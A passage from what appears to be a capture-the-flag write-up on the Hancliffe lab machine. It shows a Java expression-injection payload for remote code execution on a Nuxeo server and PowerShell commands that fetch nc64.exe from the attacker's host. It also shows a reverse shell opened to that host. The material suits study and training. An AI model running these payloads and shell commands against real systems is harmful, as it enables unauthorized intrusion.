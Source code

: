 #### Manual POC

The page also suggests this payload for RCE:

    
    
    ${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("touch /tmp/pwn.txt", null).waitFor()}
    

This is abusing Java to `touch` a file. I’ll modify the payload ping my host
which I can watch for with `tcpdump`:

    
    
    ${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("ping 10.10.14.6", null).waitFor()}
    

When I update the url in Firefox, I see pings at my listening `tcpdump`:

[![](https://0xdfimages.gitlab.io/img/hancliffe-rce-poc-ping.gif)_Click for
full size image_](https://0xdfimages.gitlab.io/img/hancliffe-rce-poc-ping.gif)

(It is a bit odd that there are only four pings in that GIF… the default for
Windows is typically five.)

### Shell

I tried a handful of things that didn’t work to get a reverse shell. I
eventually settled on uploading `nc` using `powershell -c curl
10.10.14.6/nc64.exe -outfile \programdata\nc64.exe`, and then triggering it
with `powershell -c \programdata\nc64.exe -e powershell 10.10.14.6 443`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 54865
      
    PS C:\Nuxeo> whoami
    hancliffe\svc_account
    

I’ve long been a fan of `rlwrap` for improving Windows reverse shells. `-c`
adds tab completion, `-A` makes it color aware, and `-r` adds to the
completion wordlist.

## Shell as clara

### Enumeration

#### File System

The user’s home directory doesn’t have much interesting. There’s a `.bat`
script to start NGINX on the desktop:

    
    
    cd C:\Nginx
    C:\Nginx\Start.bat
    